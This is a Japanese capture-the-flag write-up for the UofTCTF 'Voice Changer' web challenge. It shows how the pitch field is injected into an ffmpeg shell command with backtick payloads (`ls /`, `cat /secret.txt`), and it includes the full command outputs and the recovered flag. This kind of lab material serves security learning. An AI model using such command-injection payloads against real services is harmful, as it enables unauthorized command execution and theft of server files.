


# Voice Changer:Web:232pts
I made a cool app that changes your voice.  

[https://uoftctf-voice-changer.chals.io/](https://uoftctf-voice-changer.chals.io/)  

# Solution
URLが渡される。  
アクセスすると録音とピッチを指定してボイスチェンジできるサイトらしい。  
  
録音してsubmitするとページが崩れ、以下のようなOutputが表示された。  
  
ffmpegにファイルをそのまま渡しているようだ。  
このような場合、ファイル名にOSコマンドインジェクションやパストラバーサルがあることが多いが、oggファイルの名前はサーバ側で指定されているようだ。  
ここで、ピッチがそのままオプションに渡っていることに気づく。  
`type="range"`となっているが、変更すれば数値以外も送信できる。  
OSコマンド(`ls /`)を送ってみると、Outputには以下のような結果が表示された。  
```
$ ffmpeg -i "/app/upload/42a7af00-b2be-11ee-a0c6-f5a3433de4d7.ogg" -y -af "asetrate=44100*`ls /`,aresample=44100,atempo=1/`ls /`" "/app/output/42a7af00-b2be-11ee-a0c6-f5a3433de4d7.ogg"

ffmpeg version 6.1 Copyright (c) 2000-2023 the FFmpeg developers
  built with gcc 13.2.1 (Alpine 13.2.1_git20231014) 20231014
  configuration: --prefix=/usr --disable-librtmp --disable-lzma --disable-static --disable-stripping --enable-avfilter --enable-gpl --enable-ladspa --enable-libaom --enable-libass --enable-libbluray --enable-libdav1d --enable-libdrm --enable-libfontconfig --enable-libfreetype --enable-libfribidi --enable-libharfbuzz --enable-libmp3lame --enable-libopenmpt --enable-libopus --enable-libplacebo --enable-libpulse --enable-librav1e --enable-librist --enable-libsoxr --enable-libsrt --enable-libssh --enable-libtheora --enable-libv4l2 --enable-libvidstab --enable-libvorbis --enable-libvpx --enable-libwebp --enable-libx264 --enable-libx265 --enable-libxcb --enable-libxml2 --enable-libxvid --enable-libzimg --enable-libzmq --enable-lto=auto --enable-lv2 --enable-openssl --enable-pic --enable-postproc --enable-pthreads --enable-shared --enable-vaapi --enable-vdpau --enable-version3 --enable-vulkan --optflags=-O3 --enable-libjxl --enable-libsvtav1 --enable-libvpl
  libavutil      58. 29.100 / 58. 29.100
  libavcodec     60. 31.102 / 60. 31.102
  libavformat    60. 16.100 / 60. 16.100
  libavdevice    60.  3.100 / 60.  3.100
  libavfilter     9. 12.100 /  9. 12.100
  libswscale      7.  5.100 /  7.  5.100
  libswresample   5.  0.100 /  5.  0.100
  libpostproc    57.  3.100 / 57.  3.100
Input #0, ogg, from '/app/upload/42a7af00-b2be-11ee-a0c6-f5a3433de4d7.ogg':
  Duration: 00:00:02.81, start: 0.000000, bitrate: 2 kb/s
  Stream #0:0: Audio: opus, 48000 Hz, stereo, fltp
    Metadata:
      ENCODER         : Mozilla121.0.1
[Parsed_asetrate_0 @ 0x7f65cb376ec0] [Eval @ 0x7ffc305a0ad0] Undefined constant or missing '(' in 'appbindevetchomelibmediamntoptprocrootrunsbinsecret.txtsrvsystmpusrvar'
[Parsed_asetrate_0 @ 0x7f65cb376ec0] Unable to parse option value "44100*app
bin
dev
etc
home
lib
media
mnt
opt
proc
root
run
sbin
secret.txt
srv
sys
tmp
usr
var"
Error applying option 'sample_rate' to filter 'asetrate': Invalid argument
[aost#0:0/libvorbis @ 0x7f65caf01380] Error initializing a simple filtergraph
Error opening output file /app/output/42a7af00-b2be-11ee-a0c6-f5a3433de4d7.ogg.
Error opening output files: Invalid argument
```
結果が表示され、`/secret.txt`があるようだ。  
catしてやる。  
```
$ ffmpeg -i "/app/upload/6ea806e0-b2be-11ee-a0c6-f5a3433de4d7.ogg" -y -af "asetrate=44100*`cat /secret.txt`,aresample=44100,atempo=1/`cat /secret.txt`" "/app/output/6ea806e0-b2be-11ee-a0c6-f5a3433de4d7.ogg"

ffmpeg version 6.1 Copyright (c) 2000-2023 the FFmpeg developers
  built with gcc 13.2.1 (Alpine 13.2.1_git20231014) 20231014
  configuration: --prefix=/usr --disable-librtmp --disable-lzma --disable-static --disable-stripping --enable-avfilter --enable-gpl --enable-ladspa --enable-libaom --enable-libass --enable-libbluray --enable-libdav1d --enable-libdrm --enable-libfontconfig --enable-libfreetype --enable-libfribidi --enable-libharfbuzz --enable-libmp3lame --enable-libopenmpt --enable-libopus --enable-libplacebo --enable-libpulse --enable-librav1e --enable-librist --enable-libsoxr --enable-libsrt --enable-libssh --enable-libtheora --enable-libv4l2 --enable-libvidstab --enable-libvorbis --enable-libvpx --enable-libwebp --enable-libx264 --enable-libx265 --enable-libxcb --enable-libxml2 --enable-libxvid --enable-libzimg --enable-libzmq --enable-lto=auto --enable-lv2 --enable-openssl --enable-pic --enable-postproc --enable-pthreads --enable-shared --enable-vaapi --enable-vdpau --enable-version3 --enable-vulkan --optflags=-O3 --enable-libjxl --enable-libsvtav1 --enable-libvpl
  libavutil      58. 29.100 / 58. 29.100
  libavcodec     60. 31.102 / 60. 31.102
  libavformat    60. 16.100 / 60. 16.100
  libavdevice    60.  3.100 / 60.  3.100
  libavfilter     9. 12.100 /  9. 12.100
  libswscale      7.  5.100 /  7.  5.100
  libswresample   5.  0.100 /  5.  0.100
  libpostproc    57.  3.100 / 57.  3.100
Input #0, ogg, from '/app/upload/6ea806e0-b2be-11ee-a0c6-f5a3433de4d7.ogg':
  Duration: 00:00:02.81, start: 0.000000, bitrate: 2 kb/s
  Stream #0:0: Audio: opus, 48000 Hz, stereo, fltp
    Metadata:
      ENCODER         : Mozilla121.0.1
[Parsed_asetrate_0 @ 0x7f0d3a718ec0] [Eval @ 0x7ffdb7443720] Undefined constant or missing '(' in 'uoftctf{Y0URPitchIS70OH!9H}'
[Parsed_asetrate_0 @ 0x7f0d3a718ec0] Unable to parse option value "44100*uoftctf{Y0UR Pitch IS 70O H!9H}"
Error applying option 'sample_rate' to filter 'asetrate': Invalid argument
[aost#0:0/libvorbis @ 0x7f0d3a1ad380] Error initializing a simple filtergraph
Error opening output file /app/output/6ea806e0-b2be-11ee-a0c6-f5a3433de4d7.ogg.
Error opening output files: Invalid argument
```
中にflagが書かれていた。  

## uoftctf{Y0UR Pitch IS 70O H!9H}